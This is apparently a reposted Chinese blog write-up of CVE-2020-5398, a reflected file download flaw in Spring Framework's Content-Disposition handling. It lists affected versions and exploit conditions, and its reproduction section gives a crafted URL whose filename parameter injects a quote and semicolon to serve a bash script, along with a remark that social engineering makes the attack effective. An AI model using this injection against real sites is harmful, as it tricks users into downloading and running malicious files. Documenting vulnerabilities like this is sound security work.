



# CVE-2020-5398:Spring MVC_RFD - APT-101 - 博客园

> 原文：[`www.cnblogs.com/hack404/p/14216397.html`](https://www.cnblogs.com/hack404/p/14216397.html)

### 影响范围

*   Spring Framework 5.2.0 - 5.2.2
*   Spring Framework 5.1.0 - 5.1.12
*   Spring Framework 5.0.0 - 5.0.15

### 漏洞类型

反射型文件下载漏洞(RFD)

### 利用条件

1、响应 header 是通过 org.springframework.http.ContentDisposition 进行添加的

2、文件名是通过以下方式之一设置的：

*   ContentDisposition.Builder#filename(String)
*   ContentDisposition.Builder#filename(String, US_ASCII)

3、filename 的值来自用户提供的输入

4、应用程序未清除用户提供的输入

5、攻击者已将下载的响应内容中注入恶意命令

攻击者可利用 RFD 漏洞，结合社工等方式，让用户下载一个恶意文件并执行，从而危害用户的终端安全

### 漏洞概述

2020 年 1 月 16 日，Pivotal Software（Spring 系列）官方发布 Spring Framework 存在 RFD（反射型文件下载漏洞）的漏洞报告，此漏洞为攻击客户端的漏洞，官方将漏洞严重程度评为高。报告指出，当响应中设置了“Content-Disposition”头且 filename 属性是用户可控时容易受到 RFD 攻击。

### 漏洞复现

**环境搭建**

**❯ git clone https://github.com/motikan2010/CVE-2020-5398.git**

**❯ ./gradlew bootrun**

****

环境搭建完成，开始利用。

http://172.16.125.128:8080/?filename=hack.sh%22%3B&contents=%23!%2Fbin%2Fbash%0Aid

所以说，通过社工的方式，选用权重较高的域名来实现攻击，成功率很大。

参考：

https://github.com/motikan2010/CVE-2020-5398

https://www.blackhat.com/docs/eu-14/materials/eu-14-Hafif-Reflected-File-Download-A-New-Web-Attack-Vector.pdf